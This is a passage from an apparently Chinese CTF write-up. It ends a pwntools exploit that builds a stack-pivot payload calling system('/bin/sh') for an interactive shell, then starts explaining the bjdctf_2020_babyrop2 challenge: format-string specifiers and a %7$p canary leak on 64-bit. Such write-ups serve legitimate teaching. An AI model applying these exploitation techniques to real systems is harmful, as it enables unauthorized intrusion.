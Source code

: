 ```
#payload2 = p32(call_system_addr) + p32(bin_sh_addr) + b'/bin/sh\x00' + b'a' * 24 + p32(new_stack_esp - 4) + p32(leave_ret_addr)
payload2 = p32(system_plt_addr) + p32(0xdeadbeef) + p32(bin_sh_addr) + b'/bin/sh\x00' + b'a' * 20 + p32(new_stack_esp - 4) + p32(leave_ret_addr)
p.sendline(payload2)
#pause()
p.interactive()
```

# bjdctf_2020_babyrop2

经典的64位格式化字符串漏洞泄露canary值的题，详细记录一下，也顺便总结一下

首先是基本知识：

```
常用基本的格式化字符串参数介绍：

%c：输出字符，配上%n可用于向指定地址写数据。

%d：输出十进制整数，配上%n可用于向指定地址写数据。

%x：输出16进制数据，如%i$x表示要泄漏偏移i处4字节长的16进制数据，%i$lx表示要泄漏偏移i处8字节长的16进制数据，32bit和64bit环境下一样。

%p：输出16进制数据，与%x基本一样，只是附加了前缀0x，在32bit下输出4字节，在64bit下输出8字节，可通过输出字节的长度来判断目标环境是32bit还是64bit。

%s：输出的内容是字符串，即将偏移处指针指向的字符串输出，如%i$s表示输出偏移i处地址所指向的字符串，在32bit和64bit环境下一样，可用于读取GOT表等信息。

%n：将%n之前printf已经打印的字符个数赋值给偏移处指针所指向的地址位置，如%100×10$n表示将0x64写入偏移10处保存的指针所指向的地址（4字节），而%$hn表示写入的地址空间为2字节，%$hhn表示写入的地址空间为1字节，%$lln表示写入的地址空间为8字节，在32bit和64bit环境下一样。有时，直接写4字节会导致程序崩溃或等候时间过长，可以通过%$hn或%$hhn来适时调整。

%n是通过格式化字符串漏洞改变程序流程的关键方式，而其他格式化字符串参数可用于读取信息或配合%n写数据。
```

对于此题还要明确一点：canary在同一程序的不同函数中的值是一样的

证据如下，在gift函数和vuln函数中canary值一样（见rax寄存器）

![1](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041738336.png)

![2](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041738089.png)

还有一个最关键的一点，就是怎么泄露canary的值？第一个scanf的时候，我们要输入什么？再具体一点，canary的值是printf的第几个参数？（或者说，偏移为几？）

动态调试看一下：

![image-20210404154522067](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041738674.png)

我们可以看到在栈中，canary的值就在我们的输入1234的下面，但这并不意味着canary的值就是printf的第1个参数，因为**64位是寄存器传参，前六个参数是通过寄存器传给函数的！**(rdi, rsi, rdx, rcx, r8, r9)，后面的参数才通过栈传递。所以canary的值实际上是printf的第7个参数。故第一个scanf处应该输入%7$p(而不是所谓的"试出来"或“凭运气撞出来”)。另外顺便说下，在32位下，我们一般在gdb中用stack命令查看栈的分布情况来找偏移。
